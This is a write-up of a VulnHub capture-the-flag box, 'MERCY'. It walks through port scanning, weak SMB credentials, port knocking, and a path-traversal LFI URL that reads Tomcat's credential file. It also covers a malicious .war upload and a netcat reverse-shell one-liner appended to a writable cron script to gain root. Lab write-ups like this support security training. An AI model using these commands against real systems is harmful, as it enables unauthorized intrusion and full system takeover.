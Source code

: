 # digitalworld.local: MERCY

[VulnHub Link](https://www.vulnhub.com/entry/digitalworldlocal-mercy-v2,263/)

## Port Scanning

We start with a simple port scan and we discover a bunch of open ports:

```
PORT     STATE SERVICE     VERSION
53/tcp   open  domain      ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)
110/tcp  open  pop3        Dovecot pop3d
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open  imap        Dovecot imapd (Ubuntu)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
993/tcp  open  ssl/imap    Dovecot imapd (Ubuntu)
995/tcp  open  ssl/pop3    Dovecot pop3d
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-robots.txt: 1 disallowed entry 
|_/tryharder/tryharder
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Potentially risky methods: PUT DELETE
Service Info: Host: MERCY; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After enumerating http and dns we found nothing but we can still try finding useful info in smb. After a bit enumerating we found four users:

```
pleadformercy                                                            
qiu
thisisasuperduperlonguser
fluffy
```

There was an http page which was telling us about a story of a weak password so we can try connect to smb with the password as same as the user: `smbclient \\\\digitalworld.local\\qiu -U qiu` We foud a entrance! After a bit enumerating we found that port knocking is activated.

```
 [openHTTP]
        sequence    = 159,27391,4
        seq_timeout = 100
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
        tcpflags    = syn

[closeHTTP]
        sequence    = 4,27391,159
        seq_timeout = 100
        command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
        tcpflags    = syn

[openSSH]
        sequence    = 17301,28504,9999
        seq_timeout = 100
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

[closeSSH]
        sequence    = 9999,28504,17301
        seq_timeout = 100
        command     = /sbin/iptables -D iNPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn
```

Now we can use knockd for open the ports:

```
knock -v digitalworld.local 159 27391 4
knock -v digitalworld.local 17301 28504 9999
```

As we can see we opened the ports!

```
22/tcp open  ssh
80/tcp open  http
```

As soon as we open the http server on port 80 we discovery that there is nothing useful, after we tried /robots.txt we saw that 2 entries are disallowed:

```
User-agent: *
Disallow: /mercy
Disallow: /nomercy
```

One of the disallowed entries (/nomercy) is a "Rips 0.53" service where we found that there is a LFI vulnerability (https://www.exploit-db.com/papers/12886). After a bit of enumeration on the system i tried: `http://digitalworld.local/nomercy/windows/code.php?file=../../../../../../etc/tomcat7/tomcat-users.xml` because on the first page in the server on the port 8080 there was a string that i remembered: `NOTE: For security reasons, using the manager webapp is restricted to users with role "manager-gui". The host-manager webapp is restricted to users with role "admin-gui". Users are defined in /etc/tomcat7/tomcat-users.xml.`

Now we have 2 another users and passwords! `thisisasuperduperlonguser:heartbreakisinevitable` `fluffy:freakishfluffybunny`

With this combination we can access `http://digitalworld.local:8080/manager/html` and upload a malicious .war file, we now have a shell!

## Privesc

As soon as we enter we privesc on fluffy with the found credentials. In the "/home/fluffy/.private/secrets/" we have a "timeclock" shell file, maybe is a hidden cronjob. We can try because we can write into it:

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.40.139 9000 >/tmp/f" >> timeclock
```

As we said, we now have a root shell! `uid=0(root) gid=0(root) groups=0(root)`

## That's was a really cool box and thanks for the reading.

## Hope to see you soon!

_Pedio Zaki_
